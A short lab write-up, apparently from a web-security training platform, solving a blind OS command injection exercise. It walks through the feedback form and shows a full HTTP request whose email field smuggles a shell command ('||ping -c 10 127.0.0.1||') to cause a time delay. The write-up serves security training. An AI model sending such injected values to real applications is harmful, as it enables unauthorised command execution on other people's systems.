

# Blind OS command injection with time delays

```
❓

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
```

Inspect the store page then head over to the `Submit feedback` page, input some test data in the user input.



Head over to Burp Suite and inspect the POST request for the feedback form, our objective is to cause the request to stall for 10 seconds before receiving a response. After trying a few delimiters for to get the payload to execute, I found that `||` works and only the email parameter is susceptible to this attack.

```txt
POST /feedback/submit HTTP/2
Host: 0ab60054034c2c1e82ad655f0088003c.web-security-academy.net
Cookie: session=CWwJ8YsbJkl8wU9xfZ3ulHfR5geJr0Vw
Content-Length: 119
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0ab60054034c2c1e82ad655f0088003c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ab60054034c2c1e82ad655f0088003c.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=3GiQBbeoZmUG0DPyVUQqMyYZYzArs7d3&name=test&email=test%40mail.com||ping+-c+10+127.0.0.1||&subject=test&message=test
```
